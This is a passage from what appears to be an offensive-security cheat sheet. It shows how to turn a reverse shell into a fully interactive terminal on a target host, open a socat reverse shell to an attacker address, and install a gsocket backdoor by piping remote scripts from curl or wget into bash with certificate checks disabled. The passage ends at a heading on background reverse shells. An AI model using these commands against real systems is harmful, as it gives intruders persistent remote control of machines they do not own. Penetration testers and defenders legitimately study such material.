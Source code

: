 ```sh
# On the target host spwan a PTY using any of the above examples:
python -c 'import pty; pty.spawn("/bin/bash")'
# Now Press Ctrl-Z to suspend the connection and return to your own terminal.
```

```
# On your terminal execute:
stty raw -echo opost; fg
```

```sh
# On target host
export SHELL=/bin/bash
export TERM=xterm-256color
reset -I
stty -echo;printf "\033[18t";read -rdt R;stty sane $(echo "$R"|awk -F";" '{ printf "rows "$3" cols "$2; }')
# Pimp up your prompt
PS1='USERS=$(who | wc -l) LOAD=$(cut -f1 -d" " /proc/loadavg) PS=$(ps -e --no-headers|wc -l) \[\e[36m\]\u\[\e[m\]@\[\e[32m\]\h:\[\e[33;1m\]\w \[\e[0;31m\]\$\[\e[m\] '
```

<a id="reverse-shell-socat"></a>
**5.ii.c. Reverse shell with socat (fully interactive)**

...or install socat and get it done without much fiddling about:

```sh
# on attacker's host (listener)
socat file:`tty`,raw,echo=0 tcp-listen:1524
# on target host (reverse shell)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.13.3.7:1524
```

---
<a id="backdoor"></a>
## 6. Backdoors

Mostly we use gs-netcat's automated deployment script: [https://www.gsocket.io/deploy](https://www.gsocket.io/deploy).
```sh
bash -c "$(curl -fsSLk https://gsocket.io/y)"
```
or
```sh
bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/y)"
```

or deploy gsocket by running your own deployment server:
```sh
LOG=results.log bash -c "$(curl -fsSL https://gsocket.io/ys)"  # Notice '/ys' instead of '/y'
```

<a id="backdoor-background-reverse-shell"></a>
**6.i. Background reverse shell**
